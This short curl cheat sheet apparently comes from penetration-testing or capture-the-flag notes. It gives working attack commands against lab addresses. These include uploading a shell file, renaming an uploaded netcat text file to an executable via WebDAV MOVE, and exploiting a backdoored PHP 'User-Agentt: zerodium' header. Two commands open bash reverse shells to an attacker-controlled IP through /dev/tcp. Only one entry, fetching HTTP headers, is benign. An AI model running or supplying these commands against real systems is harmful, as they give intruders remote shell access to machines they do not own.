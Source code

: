 Move a file with curl:
```
curl -X MOVE --header "Destination:http://10.10.10.15/nc.exe" http://10.10.10.15/nc.txt
```

Upload a file with curl:
```
curl http://10.10.10.15/ --upload-file shell.txt
```
sends a reverse shell.
```
curl http://10.10.10.242/index.php -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i
&>/dev/tcp/10.10.14.177/1234 0>&1 '\");"
```

Get an Http header:
```
curl -I <http://ip-address/
```
Get a reverse shell with curl:
```
curl 10.10.11.116/shell.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.16.6/4444 0>&1'"
```
